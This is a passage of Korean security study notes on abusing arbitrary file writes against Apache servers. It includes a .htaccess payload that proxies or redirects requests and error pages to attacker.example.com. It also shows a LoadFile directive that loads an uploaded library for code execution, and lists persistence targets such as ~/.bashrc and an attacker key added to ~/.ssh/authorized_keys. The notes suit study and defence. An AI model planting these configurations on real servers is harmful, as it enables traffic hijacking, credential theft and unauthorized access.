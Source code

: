                     ```Apache
                    RewriteEngine On
                    RewriteOptions inherit # 부모의 설정을 상속받음(inherit)

                    # mod_proxy_fcgi를 사용하는 경우 FastCGI 서버로 요청 프록시
                    RewriteRule (.*) fcgi://attacker.example.com.$1 [P]
                    # mod_proxy_http를 사용하는 경우 HTTP 서버로 요청 프록시
                    RewriteRule (.*) http://%{HTTP_HOST}at.attacker.example.com.$1 [P]
                    # HTTP Redirect 적용
                    RewriteRule (.*) http://%{HTTP_HOST}at.attacker.example.com.$1 [R=302, L]

                    # 에러 페이지를 공격자의 웹 페이지로 리다이렉트함
                    ErrorDocument 404 https://attacker.example.com/
                    ```
                    | 지시어 | 설명 |
                    |:---:|------|
                    | ```RewriteEngine``` | Runtime Rewriting Engine을 활성화(On) 또는 비활성화(Off)함 [🔗](https://httpd.apache.org/docs/2.2/en/mod/mod_rewrite.html#rewriteengine) |
                    | ```RewriteOptions``` | 현재 서버별 또는 디렉터리별 구성에 대한 일부 특수 옵션을 설정함 [🔗](https://httpd.apache.org/docs/2.2/en/mod/mod_rewrite.html#rewriteoptions) <br/> &nbsp;&nbsp; - ```inherit```, ```AllowAnyURI```, ```MergeBase``` 중 하나만 설정할 수 있음 |
                    | ```RewriteRule``` | Rewrite Engine에 대한 규칙을 정의함 [🔗](https://httpd.apache.org/docs/2.2/en/mod/mod_rewrite.html#rewriterule) <br/> &nbsp;&nbsp; - 형식: ```RewriteRule Pattern Subsitution [flags]``` |
                    | ```ErrorDocument``` | 문제/오류 발생 시 다음 4가지 중 하나를 수행하도록 함 [🔗](https://httpd.apache.org/docs/2.2/en/mod/core.html#errordocument) <br/> &nbsp;&nbsp; - 하드코딩된 간단한 오류 메시지 출력 <br/> &nbsp;&nbsp; - 커스텀한 메시지 출력 <br/> &nbsp;&nbsp; - 문제/오류 처리를 위해 내부적으로 로컬 URL 경로로 리다이렉션 <br/> &nbsp;&nbsp; - 문제/오류 처리를 위해 외부 URL로 리다이렉션 |
                + 요청 중에 계정 정보를 포함한 민감한 정보가 포함되어 있다면 이를 또 다른 목적으로 사용할 수 있음
            - **과정 4**: ***/etc/apache2*** 디렉터리 변경이 가능한 경우 업로드한 공유 라이브러리를 로드해 임의 코드 실행이 가능함
                + 변경 사항을 웹 서버에 반영하기 위해서는 **서비스 재시작이 필요함**
                + 공유 라이브러리 예시
                    ```Apache
                    # 서버가 재시작될 때 C:\www\path\injected\library.so을 읽어들여 임의 코드를 실행함
                    LoadFile "C:\www\path\injected\library.so"
                    ```
                    | 지시어 | 설명 |
                    |:---:|------|
                    | ```LoadFile``` | 서버가 시작하거나 재시작할 때 지정한 목적 파일이나 라이브러리를 읽어들임(link in) [🔗](https://httpd.apache.org/docs/2.2/en/mod/mod_so.html#loadfile) <br/> &nbsp;&nbsp; - 형식: ```LoadFile filename [filename ...]``` |
    - 일반 권한으로 접근할 수 있는 가상 파일들의 목록 (/proc)
        | 파일 | 설명 |
        |:---:|------|
        | /proc/\<PID\>/coredump_filter | 프로세스 \<PID\>의 코어 덤프에서 포함될 데이터의 범위를 지정함 |
        | /proc/\<PID\>/mem | 프로세스 \<PID\>의 메모리에 접근함 <br/> &nbsp;&nbsp; - 일반적으로 ```fseek```과 같은 하수로 파일 오프셋을 지정하지 않는 이상 사용할 수 없음 |
        | /proc/\<PID\>/comm | 프로세스 \<PID\>의 명칭을 지정함 |
        | /proc/\<PID\>/sched | 프로세스 \<PID\>의 스케쥴링 통계 및 측정에 사용됨 |
        | /proc/\<PID\>/oom_adj, /proc/\<PID\>/oom_score_adj | 시스템 메모리 부족 조건 발생 시 프로세스를 강제 종료시켜 메모리를 확보하게 됨(OOM killer) → 이때 현재 프로세스가 선택되는 우선순위를 조정함 |
        + ***/proc/\<PID\>/*** 대신 ***/proc/self/*** 사용 시 현재 프로세스를 접근하게 됨
        + 파일 업로드 시 파일 존재 여부를 확인한다면 위의 파일은 사용할 수 없음
    - root 사용자 권한이 필요 없는 파일들의 목록
        | 파일 | 설명 |
        |:---:|------|
        | .htaccess | Apache Web Server에서 웹 문서 디렉터리 내 서버 설정을 제어할 수 있음 |
        | ~/.bashrc, ~/.profile | 사용자 로그온 시 실행되는 쉘 명령을 지정함 <br/> &nbsp;&nbsp; - ***~/.profile*** 파일의 경우 관리자가 로그온하는 계정과 웹 서버의 계정이 같을 때만 사용할 수 있음 |
        | ~/.ssh/authorized_keys | 해당 사용자에 로그인할 수 있는 SSH 공개키를 지정함 <br/> &nbsp;&nbsp; - ⚠️ 공격자의 SSH 공개키를 추가하면 공격자가 시스템에 로그인할 수 있음 |